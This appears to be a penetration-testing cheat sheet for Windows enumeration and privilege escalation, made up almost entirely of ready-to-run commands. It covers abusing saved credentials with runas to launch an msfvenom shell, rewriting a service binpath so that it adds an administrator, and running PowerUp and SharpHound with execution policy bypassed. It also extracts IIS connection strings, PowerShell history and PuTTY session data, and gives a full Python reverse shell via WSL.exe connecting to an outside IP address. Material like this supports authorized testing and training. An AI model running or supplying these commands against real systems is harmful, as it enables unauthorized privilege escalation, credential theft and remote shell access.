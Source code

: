 # Windows Enumeration

| Command | Summary |
| ---------------------------- | ---------------------------- |
| ```dir <name of file> /s /p``` | Search the file system, recursively for the filename |
| ```whoami /priv``` | Gets the privileges for current user context |
| ```whoami /groups``` | Gets a listing of the groups for the current user context |
| ```more < name_of_alternate_data_stream.txt``` | Returns the contents of the alternate data stream | 
| ```cmdkey /list``` | We may get lucky and find stored credentials |
| ```runas /savecred /user:DOM.LOCAL\Administrator "C:\Users\<user>\Documents\shell.exe"``` | If the user is storing creds, launch an msfvenom shell | 
| ```accesschk64.exe -wvu <file.exe>``` | This will check the files access writes |
| ```icacls.exe <filename.txt>``` | Does the same thing as accesschk64.exe but is native to OS |
| ```accesschk64.exe -uwcv Everyone *``` | Searches the file system for world-writeable service binaries |
| ```accesschk64.exe -uwcv <service name>``` | Once you identify a service, get more detail by searching for the single service name |
| ```sc query <service name>``` | We can gather the binmary path name by using the sc query command |
| ```sc config <service name> binpath= "net localgroup administrators <username> /add"``` | Modify binpath |
| ```powershell.exe -nop -ep bypass . .\PowerUp.ps1``` | With modified PowerUp.ps1, will run as you invoke program |
| ```wmic product get name,version``` | Uses WMI to get installed software |
| ```Get-ChildItem -Hidden -Path C:\Users\username\Desktop\``` | Searches directory for hidden files | 
| ```wmic service where "name like 'service name'" get Name,PathName``` | Uses WMI to get service information | 
| ```Get-Service \| where-object Name -match 'Service Name' ``` | Using Powershell search for service information |
| ```Get-Process -Name name-of-process``` | Using Get-Process find process PID | 
| ```netstat -noa \|findstr "LISTENING" \|findstr "1337"``` | Using the PID of the process, find out what port its running on | 
| ```net accounts``` | Check the logs settings on a machine such as passowrd policy, etc.|
| ```net accounts /domain``` | Check if the machine belongs to a domain | 
| ```net share``` | Checks for a list of open shares |

| Check | Description |
| ---------------------------- | ---------------------------- |
| PowerShell IWR vs IEX | Be sure to remember IEX will run the script in memory, useful for loading SharpHound.ps1 remotely |
| What tokens are on machine | If there tokens on the machine, you may be able to switch into that user, and elevate privileges |
| Check for autoruns | These are programs that can run with elevated permissions. If they have execissive permssions (EVERYONE) you can replace the binary and elevate access |
| Check for Binary Path issues| See command above, its important that we can restart these services to affect them |
| If Binary Path has issue | We can modify the path to our malicious payload, add your self to Administrators group, or use other techniques |
| Check with PowerUp.ps1 | Make sure you have modified the script to Invoke-AllChecks |
| Older Windows OS Win7, Win2008 | Check MS10-059 (Chimichurri) ```https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059``` |
| Be sure to check program files and (x86) | Enumerate all of the software that might be loaded on the machine |
| Check for IIS credentials | ```type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString``` |

## Common Location for WSL.exe
```
c:\Windows\WinSxS\amd64_microsoft-windows-lxss-wsl_31bf3856ad364e35_10.0.17134.1_none_686f10b5380a84cf\wsl.exe
```

## Python Reverse Shell with WSL.exe
```
c:\Windows\WinSxS\amd64_microsoft-windows-lxss-wsl_31bf3856ad364e35_10.0.17134.1_none_686f10b5380a84cf\wsl.exe python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.19",12345));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

## Windows Kernel Exploits
- [Windows Kernel Exploits](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059)

## Checking PowerShell Command History
```
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

## Checking for Stored SSH Credentials
```
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```
